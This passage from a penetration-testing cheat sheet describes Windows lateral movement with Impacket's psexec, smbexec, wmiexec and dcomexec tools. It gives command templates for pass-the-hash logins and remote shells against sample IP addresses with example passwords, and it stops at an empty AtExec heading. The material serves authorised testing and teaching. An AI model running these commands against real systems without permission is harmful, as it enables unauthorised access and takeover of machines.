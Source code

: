 ### psexec/smbexec

Both options will **create a new service** (using _\pipe\svcctl_ via SMB) in the victim machine and use it to **execute something** (**psexec** will **upload** an executable file to ADMIN$ share and **smbexec** will point to **cmd.exe/powershell.exe** and put in the arguments the payload --**file-less technique-**-). **More info** about [**psexec**](https://book.hacktricks.xyz/windows-hardening/lateral-movement/psexec-and-winexec) and [**smbexec**](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec).

```
#If no password is provided, it will be prompted
impacket-psexec [[domain/]username[:password]@]<targetName or address>

#Pass-the-Hash
impacket-psexec -hashes <LM:NT> administrator@10.10.10.103 
impacket-psexec \\192.168.122.66 -u Administrator -p 123456Ww
 
# Use pass the hash
impacket-psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t
```

Using **parameter**`-k` you can authenticate against **kerberos** instead of **NTLM**

###  wmiexec/dcomexec

Stealthily execute a command shell without touching the disk or running a new service using DCOM via **port 135.** In **kali** it is located on /usr/share/doc/python3-impacket/examples/

```
#If no password is provided, it will be prompted
#Prompt for password
impacket-wmiexec [[domain/]username[:password]@]<targetName or address> 

#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
#Pass-the-Hash
impacket-wmiexec -hashes LM:NT administrator@10.10.10.103 

```

Using **parameter**`-k` you can authenticate against **kerberos** instead of **NTLM**

```
#If no password is provided, it will be prompted
impacket-dcomexec [[domain/]username[:password]@]<targetName or address>

#Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
impacket-dcomexec -hashes <LM:NT> administrator@10.10.10.103 

```

### AtExec
